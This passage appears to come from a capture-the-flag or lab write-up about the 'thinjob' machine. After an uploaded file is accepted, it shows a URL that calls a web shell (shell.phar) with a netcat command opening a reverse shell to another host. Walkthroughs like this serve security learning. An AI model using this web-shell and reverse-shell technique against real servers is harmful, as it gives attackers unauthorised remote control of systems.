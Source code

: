 ![image-20211015112149522](/assets/img/posts/thinjob/uploadAllowed.png)

### <span style="color: var(--link-color);">Shell</span>

We can use the uploaded file to execute a reverse shell:

```
http://192.168.1.125/filethingie/shell.phar?cmd=nc%20192.168.1.126%205555%20-e%20/bin/bash
```

![image-20211014191056210](/assets/img/posts/thinjob/initialShell.png)


